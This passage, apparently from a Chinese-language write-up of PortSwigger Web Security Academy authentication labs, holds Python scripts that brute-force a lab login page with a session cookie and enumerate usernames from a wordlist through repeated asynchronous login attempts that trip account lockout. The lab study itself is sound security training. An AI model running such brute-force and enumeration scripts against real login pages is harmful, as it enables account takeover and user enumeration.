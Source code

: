                 break

        return payload

    def send_payload(payload):
        url = "https://0ad8002a034cd53c81d8bbea00ef00b5.web-security-academy.net/login"
        cookies = {
            'session': '0bDH2G8KDHX08wQ9oeMntk29hF50QcUe',
        }
        for data in payload:
            re = requests.post(url, data=data, cookies=cookies)
            print(f"\rTrying payload: {data}, Status: {re.status_code}{" " * 20}", end="")
            if "Incorrect password" not in re.text and "wiener" not in data['username']:
                print(f"\nFound valid credential: {data}")
                return

    if __name__ == "__main__":
        payload = create_payload()
        send_payload(payload)
    ```
:::

#### 帳戶鎖定

網站嘗試防止暴力破解的其中一種方式，就是在符合特定可疑條件時鎖定帳戶，通常是達到設定的登入失敗嘗試次數。就像一般的登入錯誤一樣，伺服器回應顯示帳戶已被鎖定的訊息，也可能協助攻擊者列舉使用者名稱。

::: tip Lab: [Username enumeration via account lock](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock)

1. 寫程式對每個使用者名稱請求五次，並請 AI 改寫成非同步增加速度：
    ```python
    import asyncio
    import aiohttp
    from typing import List

    wordlist = """carlos
    root
    admin

    ...put the usernames here...

    auto
    autodiscover""".split('\n')


    async def test_login(session: aiohttp.ClientSession, username: str, url: str) -> None:
        """測試單一用戶名登入"""
        data = {
            'username': username,
            'password': 'test',
        }
        
        try:
            async with session.post(url, data=data) as response:
                text = await response.text()
                print(f"User: {username}\tStatus: {response.status}\tlength: {len(text)}")
        except Exception as e:
            print(f"User: {username}\tError: {e}")
